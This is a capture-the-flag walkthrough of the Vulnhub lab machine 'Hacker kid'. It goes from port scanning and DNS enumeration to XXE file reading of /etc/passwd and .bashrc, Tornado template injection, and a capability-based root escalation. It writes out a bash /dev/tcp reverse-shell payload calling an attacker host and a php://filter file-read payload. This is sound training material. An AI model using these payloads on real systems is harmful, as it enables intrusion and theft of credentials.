


# Hacker kid - Writeup 

Hacker kid is an easy/medium level machine from Vulnhub by Saket Sourav.

This box is OSCP style and focused on enumeration with easy exploitation.
The goal is to get root. No guessing or heavy bruteforce is required and proper hints are given at each step to move ahead.

Link to the machine: [https://www.vulnhub.com/entry/hacker-kid-101,719/](https://www.vulnhub.com/entry/hacker-kid-101,719/)
<br />

## Identify the target

Let's start by identifying the target's IP address.
```
fping -agq 10.10.10.0/24

10.10.10.1
10.10.10.2
10.10.10.10
```
<br />

## Port scan

Now, let's find some open ports and running services.
```
export ip=10.10.10.10

sudo nmap -p- -sV -sC -oN nmap.log $ip

Nmap scan report for 10.10.10.10
Host is up (0.00015s latency).
Not shown: 65532 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
53/tcp   open  domain  ISC BIND 9.16.1 (Ubuntu Linux)
| dns-nsid: 
|_  bind.version: 9.16.1-Ubuntu
80/tcp   open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Notorious Kid : A Hacker 
|_http-server-header: Apache/2.4.41 (Ubuntu)
9999/tcp open  http    Tornado httpd 6.1
| http-title: Please Log In
|_Requested resource was /login?next=%2F
|_http-server-header: TornadoServer/6.1
MAC Address: 08:00:27:72:B1:FF (Oracle VirtualBox virtual NIC)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 16.71 seconds
```
<br />

## Enumerate Web Server

First, let us examine the web server on port 80.



examined the source code and we found.
<br />


<br />


When we add `page_no` to the URL, we got a message.


<br />

So, let's do a little brute forcing on the request by sending it to `Intruder` in `Burp`.


<br />

Under the `Payloads` tab, chose the payload type to numbers. Then click on start attack.


<br />

Click on `length` to see any difference in response size.


<br />

Now, let's visit the link, we have a new message at the end of the page.


<br />

The hint says we have subdomains to enumerate, something about home, and a subdomain to work on.<br />
Let's add that subdomain in the `etc/hosts` file and then start our enumeration.


<br />

Let's use `dig` for DNS enumeration, the command is `dig hackers.blackhat.local @10.10.10.10`


<br />

We have a new subdomain, add it in hosts file.


<br />

And visit that subdomain.


<br />

We got a registration form, Let's examine it.


<br />

After a few tries, when we type an invalid email, it reflects.<br />
So, let's open Burp and intercept this request for more info.


<br />

XML format. let's try to inject XXE (XML External Entity) in the request.

> Reference: [https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XXE%20Injection](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XXE%20Injection)

<br />


<br />

You could see above, that the xxe injection worked and we got the `/etc/passwd` file, and there's a user called `Saket`.
Let's see what's in his home.
Just replace `'file:///etc/passwd'`  with  `'php://filter/convert.base64-encode/resource=/home/saket/.bashrc'`

<br />

And we got python app credentials. Now, back to our scan results, there is another running service on port 9999 which is Tornado Web server (a Python Web Technology). Let's navigate to it.


<br />

Tried to log in as admin with the credentials we've got but didn't work. Change the username from admin to Saket and it worked.


<br />

The page asking for a name, add in the link `?name=a`.


<br />

Ok, Anything we typed in the `name` parameter will return to us. Let's try SSTI (Server Side Template Injection).


<br />

> `Server-side template injection is a vulnerability where the attacker injects malicious input into a template to execute commands on the server-side. This vulnerability occurs when invalid user input is embedded into the template engine which can generally lead to remote code execution (RCE).`

> Reference:
> - [https://www.cobalt.io/blog/a-pentesters-guide-to-server-side-template-injection-ssti](https://www.cobalt.io/blog/a-pentesters-guide-to-server-side-template-injection-ssti)
> - [https://ajinabraham.com/blog/server-side-template-injection-in-tornado](https://ajinabraham.com/blog/server-side-template-injection-in-tornado)

<br />

Now, Let's get a shell.<br />
First, start a listener with netcat, copy the payload `{{os.system('bash -c "bash -i >& /dev/tcp/10.10.10.2/1234 0>&1"')}}`, and URL encode it.


<br />

Paste it into the URL.


<br />

We got a shell, upgrade it.


<br />

## Root Access

Let's upload `linpeas` and try to get root.


<br />
 
Make it executable by `chmod +x linpeas.sh` and run it.


We found a binary that has capability.

> `Linux Capabilities are used to allow binaries (executed by non-root users) to perform privileged operations without providing them all root permissions`.

> Ref: [https://blog.pentesteracademy.com/privilege-escalation-by-abusing-sys-ptrace-linux-capability-f6e6ad2a59cc](https://blog.pentesteracademy.com/privilege-escalation-by-abusing-sys-ptrace-linux-capability-f6e6ad2a59cc)

Now, Let's follow up, and first, let's download the script


<br />


<br />

Save this script and make it executable.


<br />

Ok, let's find a service running as root with `ps -eaf`. 


<br />

We gonna use the process with the PID `853`.<br />
Now, our command is ready `python2.7 exp.py 853`.<br />
Check if port 5600 is open, and connect to the target IP with netcat on port `5600`.


